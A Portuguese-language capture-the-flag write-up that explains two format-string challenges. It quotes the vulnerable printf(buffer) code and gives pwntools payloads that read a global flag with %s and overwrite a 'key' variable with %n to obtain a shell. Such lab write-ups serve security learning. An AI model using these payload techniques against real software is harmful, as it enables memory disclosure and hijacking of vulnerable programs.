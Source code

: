 # CTF7 - Format String Vulnerability

## Desafio 1

Primeiro analisamos as vulnerabilidades do binário dado:

![](images/ctf7-0.png)

Conseguimos ver que o Stack Canary está ativado portanto qualquer stack overflow não é pratico ou mesmo impossível. O NX está ativado ou seja a Stack não é executável. O PIE está desativado ou seja, os endereços do binário ou da stack vão ser sempre iguais, o que vai ser útil daqui a pouco.

Ao analisar o código conseguimos ver uma vulnerabilidade de format string nas seguintes linhas:
```c
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);
```

Também conseguimos ver que a flag não está definida na stack mas sim definida globalmente, ou seja, na parte `.bss` do ficheiro. Para descobrir o endreço podemos usar o gdb:

![](images/ctf7-1.png)

Assim conseguimos criar a nossa format string que lê este endereço de memória:

```python
p.recvuntil(b"got:")

payload = (0x804c060).to_bytes(4, byteorder='little') + b"%s"

p.sendline(payload)
p.interactive()
```

Ao correr este exploit obtemos a flag:

![](images/ctf7-2.png)


## Desafio 2


O segundo desafio é parecido ao primeiro, só que em vez de obter uma string precisamos de escrever para a variável `key` o decimal `0xbeef` para obtermos uma shell. O programa têm as mesmas permissões que o progrma do pimeiro desafio.

Assim, obtemos o endereço da key:

![](images/ctf7-3.png)

No entanto, não existe uma maneira direta de escrever um decimal num endereço arbritário usando o `printf`. Podemos usar o `%n` como uma forma indireta de escrever para um endereço. O `%n` conta o número de bytes escritos até agora. Portanto só é necessário escrever `0xbeef - 4` bytes para obter `0xbeef`.

Assim obtemos o payload abaixo:

```python

p.recvuntil(b"here...")

beef = b'%' + bytes(str(0xbeef - 4), encoding='ascii') + b'x'

payload = (0x0804b324).to_bytes(4, byteorder='little') + beef + b"%1$n"

p.sendline(payload)
p.interactive()
```

E obtemos a shell, que assim permite-nos obter a flag:
![](images/ctf7-4.png)
